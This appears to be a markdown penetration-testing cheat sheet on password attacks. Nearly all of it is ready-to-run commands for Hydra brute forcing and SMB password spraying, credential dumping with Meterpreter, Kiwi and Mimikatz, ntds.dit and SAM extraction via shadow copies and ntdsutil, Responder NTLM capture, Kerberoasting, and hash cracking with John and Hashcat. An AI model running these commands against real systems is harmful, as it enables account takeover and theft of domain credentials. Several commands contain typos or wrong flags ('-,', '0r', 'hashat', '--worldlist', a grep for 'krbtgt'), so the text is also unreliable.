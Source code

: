 # Password Attacks
## Password Guessing
### HYDRA
```bash
hydra -l bgreen -P /opt/passwords/rockyou.txt 10.10.10.10 ssh -s 22
```
#### Single User, Multiple Passwords, Targeting SSH on port 2222
```bash
hydra -l root -P passwords.txt ssh://1.2.3.4:2222
```
#### Multiple Users, Single Passwords, Targeting SMB on default port
```bash
hydra -L users.txt -p password1 dc.target.local smb2
```
#### Single User, Single Password, Targeting Multiple Tagets Across the Network
```bash
hydra -l bberner -p P@ssword1! -M windows-hosts.txt smb2
```
#### Previously Compromised Users Accross the network
```bash
hydra -C creds.txt -M windows-hosts.txt smb2
```
#### Guessing Domain user passwords using hte domain controller
```bash
hydra -C creds.txt dc01.hitbox.com smb2 -m workgroup:{hitbox}
```

## AD Password Spraying an AD Environment
```bash
GetADUsers.py hitbox.com/bgreen:Password1 -dc-ip 10.10.10.55 -all | tee /tmp/ADUsers.txt
```
```bash
hydra -L /tmp/ADUsers.txt -p Password1 -m workgroup.{hitbox} 10.10.10.55 smb2
```

## Credential Stealing
### Meterpreter
#### Smart Hashdump
```bash
run post/windows/gather/smart_hashdump
```
#### Hashdump
```bash
run post/windows/gather/hashdump
```
#### Kiwi
```meterpreter
ps -A x64 -s
```
```meterpreter
migrate PID_of_SpoolSV
```
```meterpreter
load kiwi
```
```meterpreter
creds all
```
### ntds.dit
#### VSSOwn
```cmd
cscript vssown.vbs /status
cscript vssown.vbs /start
cscript vssown.vbs /create /c
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\ntds\ntds.dit ntdsbackup.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SYSTEM systembackup.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SAM sambackup.bak
cscript vssown.cbs /stop
```
```cmd
reg save hklm\system /y
```
#### Dump the passwords
```bash
secretsdump.py --ntds /location/ntds.dit -system /location/systembackup.bak -outputfile /tmp/hashes.txt
```
#### NTDSUtil
```cmd
ntdsutil
activate instance ntds
ifm
create full C:\mybackup
quit
quit
```
```cmd
ntdsutil "ac in ntds" "ifm" "cr gu C:\mybackup" q q
```
### Mimikatz
#### Always use these
```mimikatz
privilege::debug
```
```mimikatz
token::elevate
```
```mimikatz
lsadump::sam
```


## John The Ripper
### Cracking Windows LM Hashes
```bash
john ~/lans/web01.hashes --show
```
### Cracking Windows NT Hashes
```bash
john --format=nt ~/labs01.hashes
```
### Cracking Windows NT Hashes w/ LoopBack
```bash
john --format=nt --loopback ~/labs01.hashes
```
### Cracking WIndows NT hashes w/ Wordlist
```bash
john --format=nt --worldlist=/opt/passwords/rockyou.txt ~/labs/web01.hashes
```
### Cracking Linux Hashes
```bash
john ~/labs/web10.shadow --wordlist=/opt/passwords/rockyou.txt
```

## Hashcat
### Cracking Windows NT Hashes
```bash
hashcat -w 3 -a 0 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt
```
### Cracking Windows NT Hashes with rules
```bash
hashcat -w 3 -a 0 -, 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt -e /usr/local/share/doc/hashcat/rules/best64.rule
```

### Cracking Windows NT Hashes with Masks
```bash
hashcat -w3 -a 6 -m 1000 ~/labs.web01.hashes /opt/passwords/rockyou.txt ?d?s
```
### View Cracked Passwords
```bash
hashat -m 1000 --username --show --outfile-format 2 ~/labs/web01.hashes
```
### Crack Linux Password SHA512Crypt
```bash
hashcat -w 3 -a 0 -m 1800 ~/labs/web10.shadow /opt/passwords/rockyou.txt 0r /user/local/share/doc/hashcat/rules/best64.rule
```
### Crack NTLM Hashes
#### Set Up Responder
```bash
responder.py -I eth0
```
#### pcredz
```bash
python3 ./pcredz -f /tmpwinauth.pcap
```
#### Hashcat on NTLMv2 Hashes
```bash
hashcat -w 3 -a 0 -m 5600 /opt/pcredz/logs/NTLMv2.txt /opt/passwords/rockyou.txt 
```

## Kerberoasting
### Get SPNs
```bash
GetUserSPNs.py hitbox.com/<user>:<pass> -request -dc-ip 10.10.10.35 | tee /tmp/spnoutput.txt
grep krbtgt /tmp/spnoutput.txt > /tmp/tickets
hashcat -m 13100 -a 6 /tmp/tickets /opt/passwords/rockyou.txt ?d
```

## Keeppass
### Find Keepass file
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction
SilentlyContinue
```
### Generate Hash file
```bash
keepass2john Database.kdbx > keepass.hash
```
### Crack with hashcat
```cmd
hashcat -m 13400 keepass.hash
/usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule
```